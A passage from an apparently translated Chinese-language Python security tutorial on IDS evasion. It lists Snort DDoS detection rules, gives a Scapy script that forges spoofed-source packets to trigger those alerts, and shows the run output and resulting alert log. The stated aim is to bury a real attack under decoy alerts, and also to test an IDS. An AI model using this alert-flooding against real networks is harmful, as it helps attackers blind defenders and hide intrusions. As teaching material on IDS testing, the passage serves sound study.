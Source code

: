 ```py
victim# cat /etc/snort/rules/ddos.rules
<..SNIPPED..>
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"DDOS TFN Probe";
icmp_id:678; itype:8; content:"1234"; reference:arachnids,443;
classtype:attempted-recon; sid:221; rev:4;)
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"DDOS tfn2k icmp
possible communication"; icmp_id:0; itype:0; content:"AAAAAAAAAA";
reference:arachnids,425; classtype:attempted-dos; sid:222; rev:2;)
alert udp $EXTERNAL_NET any -> $HOME_NET 31335 (msg:"DDOS Trin00
Daemon to Master PONG message detected"; content:"PONG";
reference:arachnids,187; classtype:attempted-recon; sid:223; rev:3;)
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"DDOS
TFN client command BE"; icmp_id:456; icmp_seq:0; itype:0;
reference:arachnids,184; classtype:attempted-dos; sid:228; rev:3;)
<...SNIPPED...> 
```

为了对分析师隐藏一个合法的攻击，我们将编写一个工具生成大量的警告让分析师去处理。此外，分析师能够使用这个工具来验证一个 IDS 能正确的识别恶意流量。编写这个脚本并不难，我们已经有了生成警告的规则。为此，我们将再次使用`Scapy`制作数据包。考虑到 DDos TFN 的第一条规则，我们必须生成一个 ICMP 数据包，ICMP ID 是 678，ICMP 类型是 8 包含原始内容`'1234'`的数据包。使用`Scapy`，我们用这些变量制作数据包并发送他们到我们的目的地址。此外，我们建立其他三个规则的数据包。

```py
from scapy.all import *
def ddosTest(src, dst, iface, count):
    pkt=IP(src=src,dst=dst)/ICMP(type=8,id=678)/Raw(load='1234')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/ICMP(type=0)/Raw(load='AAAAAAAAAA')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/UDP(dport=31335)/Raw(load='PONG')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/ICMP(type=0,id=456)
    send(pkt, iface=iface, count=count)

src="1.3.3.7"
dst="192.168.1.106"
iface="eth0"
count=1
ddosTest(src,dst,iface,count) 
```

运行该脚本，我们看到，四个数据包发送到了目的地址。IDS 将会分析这些数据包并生成警告，如果他们匹配正确的话。

```py
attacker# python idsFoil.py
Sent 1 packets.
.Sent 1 packets.
Sent 1 packets.
Sent 1 packets. 
```

检查 Snort 的警告日志，我们发现我们成功了！所有四个数据包生成的警告全部 IDS 系统中。

```py
victim# snort -q -A console -i eth0 -c /etc/snort/snort.conf
03/14-07:32:52.034213 [**] [1:221:4] DDOS TFN Probe [**]
[Classification: Attempted Information Leak] [Priority: 2] {ICMP}
1.3.3.7 -> 192.168.1.106
03/14-07:32:52.037921 [**] [1:222:2] DDOS tfn2k icmp possible
communication [**] [Classification: Attempted Denial of Service]
[Priority: 2] {ICMP} 1.3.3.7 -> 192.168.1.106
03/14-07:32:52.042364 [**] [1:223:3] DDOS Trin00 Daemon to Master PONG
message detected [**] [Classification: Attempted Information Leak]
[Priority: 2] {UDP} 1.3.3.7:53 -> 192.168.1.106:31335
03/14-07:32:52.044445 [**] [1:228:3] DDOS TFN client command BE [**]
[Classification: Attempted 
```
